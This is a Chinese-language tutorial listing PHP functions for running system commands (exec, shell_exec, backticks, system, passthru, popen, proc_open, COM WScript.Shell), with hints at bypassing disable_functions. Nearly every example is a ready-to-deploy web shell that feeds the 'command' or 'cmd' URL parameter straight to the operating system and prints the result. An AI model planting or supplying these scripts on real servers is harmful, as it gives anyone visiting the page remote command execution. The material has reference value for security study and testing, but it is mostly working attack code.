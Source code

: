 在PHP中，执行系统命令，有以下方式或方法：
Default
exec()
shell_exec()
`whoami`
system()
passthru()
popen()
proc_open()
pcntl_exec() ：需要开启pcntl扩展
COM组件：Wscript.Shell和Shell.Application
dl()：通过加载自定义php扩展突破 disable_fucnitons指令的限制
利用PHP内核变量绕过disable_functions，传送门：利用PHP内核变量绕过disable_functions（附完整代码）

1、exec()

该函数默认返回值是执行结果的第一行，并不会有全部的执行结果。如果要打印执行结果，需遍历打印output数组。
Default
string exec ( string command, array &output, int &return_var)
command参数是要执行的命令
output数组是保存输出结果
return_var整形用来保存命令执行后的状态码，0代表执行成功，1代表执行失败
 
 
<?php
  $command=$_GET['command'];
  $ret=exec($command,$output,$a);
  echo $ret;          #默认只返回第一行结果
  echo "<br>";
  echo "****************************************************";
  echo "<br>";
  echo "Status: ",$a;      #打印出执行状态码
  echo "<br>";
  echo "****************************************************";
  $length=count($output);    #数组的长度
  for($i=0;$i<$length;$i++){
    echo $output[$i];
    echo "<br>";
  }
?>

2、shell_exec()
Default
<?php
  $command=$_GET['command'];
  $ret=shell_exec($command);
  echo $ret;
?>

3、system()
Default
system()
system(string command , int & return_var)
command参数是要执行的命令，
return_var参数存放返回的值，可不写该参数
 
 
<?php
  $command=$_GET['command'];
  $ret=system($command);
  echo $ret;
?>

4、$command
Default
<?php
  $command=$_GET['command'];
  $ret=`$command`;
  echo $ret;
?>

5、passthru()
Default
<?php
  $command=$_GET['command'];
  passthru($command);
?>

6、popen()
Default
popen ( string command, string mode )
打开一个指向进程的管道，该进程由派生给定的 command 命令执行而产生。
返回一个和 fopen() 所返回的相同的文件指针，只不过它是单向的（只能用于读或写
）并且必须用 pclose() 来关闭。此指针可以用于 fgets()，fgetss() 和 fwrite()。
 
 
<?php
  $command=$_GET['command'];
  $fd = popen($command, 'r'); 
  while($s=fgets($fd)){
    print_r($s);
  }
?>

7、proc_open()
Default
resource proc_open ( string cmd, array descriptorspec, array &pipes [, string cwd [, array env [, array other_options]]] )
 
<?php
  $command=$_GET['command'];
    $descriptorspec=array( 
        0=>array('pipe','r'), 
        1=>array('pipe','w'),
        2=>array('pipe','w') 
    );
    $handle=proc_open($command,$descriptorspec,$pipes,NULL);
    if(!is_resource($handle)){
      die('proc_open failed');
    }
    while($s=fgets($pipes[1])){
      print_r($s);
    }
    while($s=fgets($pipes[2])){
      print_r($s);
    }
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($handle);
?>

8、COM组件

php>5.4版本需手动添加该扩展
在php.ini文件中，加入如下这行
extension=php_com_dotnet.dll
然后查看phpinfo，该扩展是否enable。
enable之后，就可以使用如下脚本了。
Default
<?php
$command=$_GET['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
